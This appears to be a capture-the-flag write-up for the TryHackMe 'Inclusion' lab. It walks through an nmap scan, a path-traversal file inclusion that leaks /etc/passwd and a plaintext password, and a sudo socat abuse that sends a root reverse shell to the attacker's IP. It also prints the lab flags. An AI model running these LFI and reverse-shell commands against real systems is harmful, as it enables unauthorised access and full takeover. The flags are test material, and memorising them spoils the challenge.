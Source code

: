 # Inclusion - THM 

## Info gathering 
## Lets start with a nmap scan 
```
# Nmap 7.92 scan initiated Wed Nov 17 20:23:13 2021 as: nmap -sC -sV -oN nmap 10.10.105.36
Nmap scan report for 10.10.105.36
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp   open     http     Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
1433/tcp filtered ms-sql-s
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 17 20:24:12 2021 -- 1 IP address (1 host up) scanned in 58.33 seconds

```
## Enumeration 

### Here we get to know that the machine is running a web server, lets check that 
### Side by side lets run gobuster (Didn't find anything), After manual enumerating on the web server
### We found an article named "lfiaatack" and the url are as follows
```
http://10.10.105.36/article?name=lfiattack
```
 
## We modified this a little bit to check the LFI(Local File Incusion), by using 
```
http://10.10.105.36/article?name=../../../../../etc/passwd
```

### And here we get to know that this is ?name= variable is vulnerable to LFI
### Also by modifying the url we got the creds
```
 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```

```
falconfeast:rootpassword
```

## Here we got the initial foothold to the machine and also got our user flag 
```
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799

```

# Its time for Prev Esc
## Now , By using sudo -l we get 
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat

```
## Here we get to know that we can run socat as root 
### So lets do it 

### Checking the SUID Binary on GTFO Bins we get to know the SUID i.e on our machine (Attacking Machine)
```
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
### On the victims machine 
```
sudo /usr/bin/socat tcp-connect:10.9.52.153:12345 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

# BOOOOOMMMMMMMMMM!!!!!!!!!!!, On our attacker box we got the root shell!!!!1

### And here we find our last and final piece of the puzzel i.e our root flag 
```
## cat root.txt                                                                   
42964104845495153909 
```

# BY SIG WOTTS <3
